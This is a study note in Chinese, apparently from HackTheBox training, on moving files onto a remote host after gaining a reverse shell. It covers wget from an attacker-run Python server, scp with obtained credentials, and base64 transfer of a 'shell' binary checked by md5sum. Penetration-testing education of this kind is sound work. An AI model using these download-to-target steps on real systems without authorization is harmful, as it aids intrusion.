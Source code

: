 # Transferring Files  傳輸檔

我們需要將檔案傳輸到遠端伺服器時，我們可以使用枚舉腳本或是漏洞，將數據傳到我們的攻擊主機
雖然像 Metasploit 搭配 Meterpreter shell 這樣的工具可以使用 upload 指令來上傳檔案，但我們仍需學習在只有一般反向 shell 的情況下傳輸檔案的方法。

## Using wget  使用 wget
透過在機器上運行python http 伺服器，使用 **wget** 或是 **curl** 在遠端主機上下檔案。

進入我們需要傳輸得文件的目錄，並在其中運行python http 伺服器
```
Coconut820@htb[/htb]$ cd /tmp
Coconut820@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

現在我們已經在計算機上設置了一個偵聽伺服器，我們可以在執行代碼的遠端主機上下載檔：
```
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

## Using SCP  使用 SCP
傳輸檔的另一種方法是使用 scp，前提是我們已經在遠端主機上獲得了 **ssh** 用戶憑證。我們可以這樣做：
```
Coconut820@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
>[!Note] 
請注意，我們在 scp 指令後面指定了本地的檔案名稱，而 : 後面則是指定要儲存到的遠端目錄位置。

## Using Base64  使用 Base64
在某些情況下，我們可能無法直接傳輸檔案。例如，遠端主機可能有防火牆保護，阻止我們從本機下載檔案。遇到這種情況，我們可以透過**將檔案轉成base64 編碼，然後將base64字串貼到遠端伺服器上進行解碼**

例如，如果我們想要傳送一個名為 shell 的二進位檔案，可以用以下方式將它編碼成 base64：
```
Coconut820@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

複製這個base64 字串並在遠端主機中使用 **base64 -d** 解碼他，並將輸出導入到一個檔案中：
```
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers 驗證檔案傳輸
為了驗證檔案的格式，我們可以在該檔案上執行 file 指令：
```
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

如我們所見，當我們對 shell 檔案執行 file 指令時，它顯示該檔案是 ELF 二進位檔，這代表我們成功地完成了檔案傳輸。為了確保在編碼／解碼過程中檔案沒有被破壞，我們可以檢查它的 md5 雜湊值。

在我們本機上，我們可以對原始檔案執行以下指令來取得其 md5 值：
```
Coconut820@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

現在，我們可以轉到遠端伺服器，對我們傳輸的檔案運行相同的命令：
```
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

正如我們所看到的，兩個檔具有相同的 md5 哈希值，這意味著檔已正確傳輸。還有其他多種傳輸檔的方法。
